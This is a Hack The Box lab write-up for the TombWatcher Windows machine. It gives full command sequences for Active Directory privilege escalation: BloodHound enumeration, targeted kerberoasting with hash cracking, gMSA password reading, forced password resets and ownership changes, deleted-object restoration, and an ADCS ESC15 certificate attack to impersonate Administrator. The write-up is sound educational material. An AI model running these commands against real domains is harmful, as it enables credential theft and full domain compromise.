<h1>HTB: TombWatcher</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/TombWatcher)  |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 15th 2026                                                   |

--- 

For this box we have been given the following credentials: <b>henry / H3nry_987TGV!</b>

<h2>Enumeration</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.232.167 -oN nmap
```

This gave me the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results, we can see that the target machine is running an `http` server on port 80, a `dns server` on port 53, `ldap` on port 389, `kerberos` on port 88, and `windows remote management` on port 5985 among other things. We can also see that the Host is named `DC01`, the machine domain is `tombwatcher.htb`, and the domain controller is `dc01.tombwatcher.htb`:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-15 18:43 -0700
Nmap scan report for tombwatcher.htb (10.129.232.167)
Host is up (0.084s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-16 05:45:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-16T05:47:02+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2026-07-16T02:15:30
|_Not valid after:  2027-07-16T02:15:30
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-16T05:47:02+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2026-07-16T02:15:30
|_Not valid after:  2027-07-16T02:15:30
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-16T05:47:02+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2026-07-16T02:15:30
|_Not valid after:  2027-07-16T02:15:30
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2026-07-16T02:15:30
|_Not valid after:  2027-07-16T02:15:30
|_ssl-date: 2026-07-16T05:47:02+00:00; +4h00m01s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49696/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
58121/tcp open  msrpc         Microsoft Windows RPC
58159/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let's add `tombwatcher.htb` and `dc01.tombwatcher.htb` to our `/etc/hosts` file:



<h3>Evil-WinRM</h3>

Given that we have been supplied with credentials and there is a WinRM service running, we will start by attempting to use the credentials to log in using `Evil-WinRM`:

```
evil-winrm -i 10.129.232.167 -u henry -p 'H3nry_987TGV!'
```

Running this command, we do indeed get a shell, but when we run a command such as `whoami`, we get a `WinRM::WinRMAuthorizationError` which tells us that the user `henry` does not have permission to run commands using WinRM.



Let's switch to trying to retrieve Active Directory information using `bloodhound-python`, which may allow us to remotely collect data for BloodHound by querying LDAP.

<h3>BloodHound-Python</h3>

With the information we acquired from the nmap scan:

- <b>Domain</b>             : tombwatcher.htb
- <b>Domain Controller</b>  : dc01.tombwatcher.htb
- <b>Name Server</b>        : 10.129.232.167 (Target IP)
- <b>Username</b>           : henry
- <b>Password</b>           : H3nry_987TGV!

We are ready to run our bloodhound-python command:

```
bloodhound-python -c All -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' -dc dc01.tombwatcher.htb -ns 10.129.232.167 --dns-tcp
```

If while running this command you receive the error `WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`, refer to this article by [danieldantebarnes](https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069), follow its steps, and then run the command again.




We can see that the command completed successfully, retrieving a large amount of AD information from the target system. It then stores this information in a series of `.json` files that we will upload to BloodHound and analyze.

<h3>BloodHound</h3>

Opening BloodHound, we are prompted to upload data to start mapping our environment, referring to our `.json` files:



Once the data is uploaded, let's go to the explore tab, search for our `henry` user, and then mark them as "owned" by right-clicking on the node and selecting `Add as Owned`:



We can see Henry's node is now marked with a small skull.

Clicking on the node, we can see more information about it including its `Outbound Object Control`, which shows the permissions and access rights that Henry has over other objects in an Active Directory environment:



From this, we can see that Henry has `WriteSPN` permissions over the user `Alfred`, which can allow us to "write directly to the `servicePrincipalNames` attribute on a user object and perform a targeted kerberoasting attack against that user." - [specterops](https://bloodhound.specterops.io/resources/edges/write-spn)

We can continue to manually click on every object and its Outbound Object Control, or we can use one of BloodHound's most useful features, the `Cypher Queries`. Though you can write your own, BloodHound comes with a series of `Saved Queries` we can use immediately. The one we will focus on here is the `Shortest paths from Owned objects`, which provides us with an attack path starting at any object we have marked as Owned. In our case, this will provide us with an attack path starting at the `henry` object:



Clicking on any of these permissions will give more information about that permission as well as the ways that it can be abused:




But how do we execute the commands necessary to implement these exploits given we don't have the ability to execute commands remotely? For this, we will use `BloodyAD` and `NetExec (nxc)`.

<h2>Exploitation</h2>

<h3>BloodyAD</h3>

Here is a really useful [cheat sheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html).

Let's start by using BloodyAD to set the ServicePrincipalName for Alfred. "An SPN uniquely identifies a service instance in a domain and is used by Kerberos for authentication. By assigning an SPN to a user account, that account can be associated with a service" - [raj](https://www.hackingarticles.in/active-directory-penetration-testing-with-bloodyad/)

Doing this will allow us to request the Ticket Granting Service (TGS) ticket for Alfred using `NetExec (nxc)` (which is encrypted with Alfred's password hash) and attempt to crack it on our attack machine.

The resource above gives us the following command format to exploit the `WriteSPN` permission:

```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```

So let's fill in our information:

```
bloodyad --host dc01.tombwatcher.htb -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' set object alfred servicePrincipalName -v 'tombwatcher/meow'
```

Now we can perform the kerberoasting attack using `NetExec (nxc)`!

<h3>NetExec (nxc)</h3>

Using nxc, we can extract Alfred's hash by running the following command:

```
nxc ldap tombwatcher.htb -u henry -p 'H3nry_987TGV!' --kerberoasting kerberoasting.out
```

This will extract Alfred's hash and store it in a file named `kerberoasting.out`.



Now that we have the hash, we can try and crack it using `Hashcat`!

<h3>Hashcat</h3>

Using the `hashcat -hh` command to view all the supported hash types, we can see that the mode ID we need is `13100`.

We will attempt to crack the hash using the `rockyou` wordlist:

```
hashcat -m 13100 kerberoasting.out -D 1 /usr/share/wordlists/rockyou.txt
```




<h2>Lateral Movement</h2>

Now we move onto the second link in our attack chain, adding Alfred to the `Infrastructure Group` using their `AddSelf` permissions, again using `bloodyad`.


<h3>BloodyAD</h3>



The cheat sheet listed earlier provides us with this template for adding a user to a group using bloodyad:

```
bloodyad --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```

So altering it to include our information, we get:

```
bloodyad --host dc01.tombwatcher.htb -d tombwatcher.htb -u alfred -p ************** add groupMember INFRASTRUCTURE 'alfred'
```

This command successfully adds Alfred to the Infrastructure group!

Now that Alfred is a member of the Infrastructure group, it is time to use that group's `ReadGMSAPassword` permission over `ansible_dev$` to obtain their account password.



Again, the cheat sheet provides a command template for us to fill out:

```
bloodyad --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```

Once we fill in our information, it should look like this:

```
bloodyad --host dc01.tombwatcher.htb -d tombwatcher.htb -u alfred -p **************  get object 'ansible_dev$' --attr msDS-ManagedPassword
```

The command successfully returns the NTLM hash of the `ansible_dev$` account:



After marking the `ansible_dev$` object as owned in BloodHound, we can use the `ForceChangePassword` permissions over the `Sam` user to change their password.



Using the command:

```
bloodyad --host dc01.tombwatcher.htb -d tombwatcher.htb -u 'ansible_dev$' -p ':<HASH>' set password sam 'Password123!'
```
 
 After marking the Sam object as owned in BloodHound we can exploit their `WriteOwner` permissions over the John object:

 

 To change the ownership of the John object:

 ```
bloodyad --host dc01.tombwatcher.htb -d tombwatcher.htb -u sam -p 'Password123! set owner john sam
 ```

 Give Sam `genericAll` permissions over John:

 ```
bloodyad --host dc01.tombwatcher.htb -d tombwatcher.htb -u sam -p 'Password123!' add genericAll john sam
 ```

 And then change Johns password:

 ```
bloodyad --host dc01.tombwatcher.htb -d tombwatcher.htb -u sam -p 'password' set password john 'Password123!'
 ```

We can see that John has `genericAll` permissions over the `adcs` organizational unit and is a member of the `Remote Management Users` group:



Curiously the ADCS OU is empty, however since it is present on the machine this indicates it contained object(s) at one time so lets use our new Remote Management permissions to search for these deleted objects using Evil-WinRM.

<h3>Evil-WinRM</h3>

We can login to the target machine using Evil-WinRM using the John user and our newly changed password and search for deleted objects using the following command:

```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property objectSid,lastKnownParent 
```

And here we find a reference to the deleted object:



We need to make note of the `ObjectGUID`, as we will need this for the restore command.

Because John has `genericAll` permissions over the `ADCS` OU, this means we can also restore this object and change its password using the command:

```
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```

And then confirm its restoration using:

```
Get-ADUser cert_admin
```



Then we reset the password:

```
Set-ADAccountPassword cert_admin -NewPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
```

Now we can rerun `certipy-ad` as cert_admin, looking for vulnerabilities in the certificates!
<h2>Privilege Escalation</h2>
<h3>Certipy-ad</h3>

To scan the certificates for vulnerabilities, we simply run the command:

```
certipy-ad find -target dc01.tombwatcher.htb -u cert_admin@tombwatcher.htb -p 'Password123!' -vulnerable -stdout 
```
Scrolling down to the bottom of the command results, we see that the `WebServer` certificate has two vulnerabilities: `ESC15` and `ESC17`:



Let's explore exploiting `ESC15` as the remarks section references a specific CVE.

Searching that CVE number, we come across a GitHub page by [rayngnpc](https://github.com/rayngnpc/CVE-2024-49019-rayng) that gives the specific `certipy` commands we need to run to escalate our privileges!

The first step is to request a certificate as the user `cert_admin` using the command:

```
certipy-ad req -ca tombwatcher-CA-1 -username cert_admin -p 'Password123!' -dc-ip 10.129.37.190 -template WebServer -application-policies '1.3.6.1.4.1.311.20.2.1' -target-ip 10.129.37.190
```



This saves the certificate as well as the private key to a file called `cert_admin.pfx`.

We then use that certificate to request an Administrator certificate:

```
certipy req -u cert_admin -p 'Password123!' -dc-ip 10.129.37.190 -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 -template User -pfx cert_admin.pfx -on-behalf-of 'tombwatcher\Administrator'
```

